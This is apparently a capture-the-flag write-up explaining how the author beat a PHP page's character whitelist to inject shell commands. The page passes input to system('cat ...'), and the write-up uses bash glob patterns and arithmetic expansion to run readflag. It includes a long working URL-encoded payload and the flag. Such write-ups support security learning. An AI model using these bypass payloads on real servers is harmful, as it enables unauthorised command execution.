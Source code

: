 # Shero

## Solution 

The goal is to send this to the server:

```bash
cat | readflag sRPd45w_0
```

Since the initial `cat` is provided, only the pipe character onward needs to be included. 

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Thought process

On visiting the webpage, the webpage shows the following:

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

The webpage takes in a `GET` parameter named `f` that only allows certain whitelisted values.

The line `if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {` shows that only these characters are allowed: `. cat!?/|-[]()$`. This can be [verified](http://challs.nusgreyhats.org:12325/?f=gg) by trying a non-whitelisted character in the `f` parameter.

![whitelist only photo](WhitelistOnly.png)

The `system` call seems to suggest some form of bash injection.

The goal is to be able to find something indicative of a flag. Given that the program runs `cat`, this is insufficient to enumerate the files on the server. `ls` or another program is needed. It would also be helpful to have access to `echo` by passing it positional arguments to see what an input gets evaluated as.

Try `/?f=|/???/?c??`, which hopefully evaluates to `/bin/echo`. The `|` pipe character is used so another command can be executed instead of being passed as a positional argument to `cat`.

![echo photo](Echo.png)

It seems `echo` is running, but also running with a few other positional arguments.

It appears that `???/?c??` is expanded to space-delimited files that it has matched. In this case, `echo` was matched first, followed by the other programs. In either case, `echo` works.

Next, try to find where the flag is stored. Try to match `ls` with `/usr/bin/ls` or `/bin/ls`

![ls attempt photo](LsAttempt.png)

`ls` is not the first result. This makes `ls` impossible to match as the first result. However, googling reveals the following alternatives: `/bin/dir`.

![dir attempt photo](BinDirAttempt.png)

`/bin/dir` comes as the second result, with `/bin/cat` coming in first. The second letter can be used to differentiate the two. The result can also be cleaned up by filtering on the first level `bin` folder to return only programs in the `bin` folder.

![successful bin photo](ActualBinDir.png)

The directory structure on the server can now be viewed. The flag can be found at the root directory `/` (after a few trial and error attempts).

![dir root photo](DirRootResult.png)

Note that `/bin/sed` also matches the regex used to match `/bin/dir`, but is provided as a positional argument to `dir`. This will not affect results. The relevant results can be seen after `/:`. Specifically, there is a `flag.txt` and `readflag`.

Would a naive `cat flag.txt` work? Probably not, but worth a try.

![cat flag fail photo](CatFlagFail.png)

There are probably insufficient permissions for the web service process to print the flag directly. The `readflag` file seems to suggest that as well. `cat readflag` and examine its contents.

![cat readflag photo](CatReadflag.png)

`readflag` seems to be an ELF executable (judging from the start of its contents). Using burpsuite, send the exact same `GET` request to dump out the executable file. Then, disassemble the file.

![readflag disassembly photo](ReadflagDisassembly.png)

It seems that `readflag` takes in a positional argument (as seen in `argv[1]`) and is compared to `s1`. `s1` has  the contents `"sRPd45w_0"` as seen in `strcpy(s1, "sRPd45w_0")`. Therefore, the command to be invoked is `cat | readflag sRPd45w_0` to obtain the flag.

However, the password string contains characters that will not pass the whitelist check. Therefore, another way must be used to obtain the string.

Note that the binary file contains the password string needed. Then, programs that could extract data based off certain byte offsets could be used to print the necessary password string.

An accidental discovery was made with `$[]` while experimenting with the bash terminal. However, `$[]` has been deprecated and is succeeded by `$(())`. `$(())` can be used to generate numbers - for example, `$((!a))` gives 1, and `$((a))`. This happens since `a` is unlikely to be a variable that has a set value, so it defaults to 0. Then, when chained with `--`, `$(( $((!a)) -- $((!a)) ))` would give 2. This can be used to generate arbitrary numbers.

With that in mind, `cut` was the first program of choice. It supports a flag specified with `-c`, allowing users to extract specific offsets of characters. However, it did not work for binary data as it often gave inconsistent results. `cut` also works on offsets relative to the start of each new line, which was not what was needed.

![readflag cut photo](ReadflagCut.png)

It should be noted that `cut` can still generate letters, just not consistently when it comes to binary data. In this case, it does not sufficiently work.

`printf` also would not work due to `\` not being whitelisted.

However, `head` and `tail` also has a `-c` flag that allows the first N or last N bytes to be extracted respectively. Find an expression for `head` and `tail`:

![usr bin tail photo](BinTail.png)

![usr bin head photop](BinHead.png)

While `tail` has an exact match, `head` does not. However, this will not pose a problem. `head` will process both files, which can be piped into tail to extract the last character. Since the `readflag` binary comes after the `pmap` argument, it will be last in the output of `head` and allow `tail` to work on it.

![head tail chain photo](HeadTailChain.png)

An expression to print out the passwords have been found. The relevant offsets are:

```bash
head readflag -c 8199 | tail -c 1 #s
head readflag -c 8204 | tail -c 1 #R
head readflag -c 8197 | tail -c 1 #P
head readflag -c 8205 | tail -c 1 #d
head readflag -c 8198 | tail -c 1 #4
head readflag -c 8200 | tail -c 1 #5
head readflag -c 8202 | tail -c 1 #w
head readflag -c 8201 | tail -c 1 #_
head readflag -c 8203 | tail -c 1 #0
```

Combining all previously obtained knowledge, printing `s` would look like this: (some spacebars and newline added for clarity)

```bash
$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #s

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #R

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #P

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #d

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #4

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #5

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #w

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a)))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #_

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a)))))) #0
```

Apply the relevant URL encoding and strip unnecessary spaces to get the solution. It runs the equivalent of 

```bash
cat | readflag sRPd45w_0
```

on the main server.

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))


<details>
<summary>Flag</summary>
grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16} 
</details>

## Similar challenges I've seen

[GryphonCTF2017](https://github.com/DISMGryphons/GryphonCTF2017-Challenges/tree/master/challenges/pwn/Bashing), based off 33c3 CTF hohoho.

